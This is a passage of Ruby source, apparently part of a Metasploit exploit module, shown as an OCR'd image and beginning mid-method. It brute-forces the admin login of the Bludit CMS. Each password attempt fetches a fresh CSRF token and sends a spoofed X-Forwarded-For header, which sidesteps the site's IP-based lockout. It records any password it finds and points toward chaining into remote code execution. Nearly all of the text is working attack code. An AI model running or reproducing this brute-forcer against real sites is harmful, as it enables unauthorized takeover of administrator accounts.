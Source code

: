 ```ruby
		m = res.body.match(/name="tokenCSRF".+?value="([^"]+)"/)
		fail_with(Failure::UnexpectedReply, 'No CSRF token') unless m
		m[1]
	end

	def auth_ok?(res)
		return false unless res
		return true if res.redirection? && res.headers['Location'].to_s.include?('/admin/dashboard')
		false
	end

	def bruteforce(login_uri, user, wordlist)
		File.foreach(wordlist).with_index do |pw, i|
			pw = pw.strip
			token = get_csrf(login_uri)
			vprint_status("Trying: #{pw}")
			res = send_request_cgi(
				'method'  => 'POST',
				'uri'     => login_uri,
				'headers' => { 'X-Forwarded-For' => "#{i}-#{pw[0,5]}" },
				'vars_post' => {
					'tokenCSRF' => token,
					'username'  => user,
					'password'  => pw
				}
			)
			if auth_ok?(res)
				print_good("Password found: #{pw}")
				report_cred(
					ip: rhost,
					port: rport,
					service_name: 'http',
					user: user,
					password: pw,
					proof: 'Bludit dashboard redirect',
					private_type: :password
				)
				return pw
			end
		end
		nil
	end

	def exploit
		login_uri = normalize_uri(target_uri.path, 'admin', 'login')
		user = datastore['BLUDITUSER']
		pwfile = datastore['PASSWORDS']
		pass = bruteforce(login_uri, user, pwfile)
		fail_with(Failure::NoTarget, 'No valid password found') unless pass
		print_status("Authenticated as #{user}. Next step: module chaining (e.g., upload RCE) or session creation.")
	end
end
```

---